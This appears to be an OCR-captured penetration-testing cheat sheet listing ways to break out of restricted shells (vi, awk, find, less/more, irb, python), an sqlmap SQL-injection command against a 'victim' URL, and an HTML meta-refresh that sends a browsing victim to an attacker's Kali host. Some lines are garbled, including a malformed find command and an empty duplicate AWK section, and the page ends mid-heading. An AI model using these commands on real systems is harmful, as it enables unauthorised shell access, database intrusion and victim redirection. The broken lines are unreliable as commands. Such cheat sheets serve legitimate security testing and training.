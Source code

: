 ```
```
## Break Restricted Shells
```
Recon of restricted shells: "env" command to see what the restricted shell path is
then echo /usr/local/rbin/* or ls -al /usr/local/rbin/*
once paths are listed, research each one to see options
export -p shows which variables are read only
```
## (VI or VIM Method)
```
Open a file and enter the following
:set shell=/bin/bash
:shell
or
:! /bin/bash
```
## (AWK Method)
```
awk 'BEGIN {system("/bin/sh")}'
```
## (Find Method)
```
find / -name blahblah 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```
## (More/Less/Man Method)
```
Type more, less, or man command with a file then try one of the following:
'! /bin/sh'
'!/bin/sh'
'!bash'
```
## (AWK Method)
```
a
```
## (Other Methods)
```
irb(main:001:0> exec "/bin/sh"
python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()
also try the shell spawning methods above
```
## Metasploit Slow Search Fix
```
db_rebuild_cache
```
## SQLMap
```
sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U
```
## Website redirects (put this in the html site vitcim is browsing)
```
<meta http-equiv="refresh" content="0; url=http://KaliIP:8080/" />
```
## Giant file transfer, can't transfer over network